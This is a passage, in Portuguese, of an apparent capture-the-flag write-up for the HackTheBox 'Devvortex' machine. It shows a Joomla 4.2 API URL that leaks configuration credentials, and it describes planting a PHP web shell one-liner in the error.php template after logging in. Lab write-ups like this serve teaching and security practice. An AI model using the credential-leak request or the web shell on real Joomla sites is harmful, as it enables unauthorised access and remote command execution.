 ```text
Disallow: /includes/
Disallow: /installation/
Disallow: /language/
Disallow: /layouts/
Disallow: /libraries/
Disallow: /logs/
Disallow: /modules/
Disallow: /plugins/
Disallow: /tmp/
```
{: .nolineno }

Pesquisando sobre vulnerabilidade do Joomla 4.2 encontrei diversos exploits.
optei por ler esse site:
<https://vulncheck.com/blog/joomla-for-rce>

Acessando a URL `http://dev.devvortex.htb/api/index.php/v1/config/application?public=true` é possível obter credenciais.  

![alt text](/assets/img/devvortex5.png)  

Com essas é possível logar na página de login.
## **Acesso**
É possível editar os templates e adicionar uma webshell, bem parecido com wordpress. Optei por editar a página error.php e adicionei o código PHP `<?php echo shell_exec($_GET["cmd"]); ?>`  
![alt text](/assets/img/devvortex6.png)
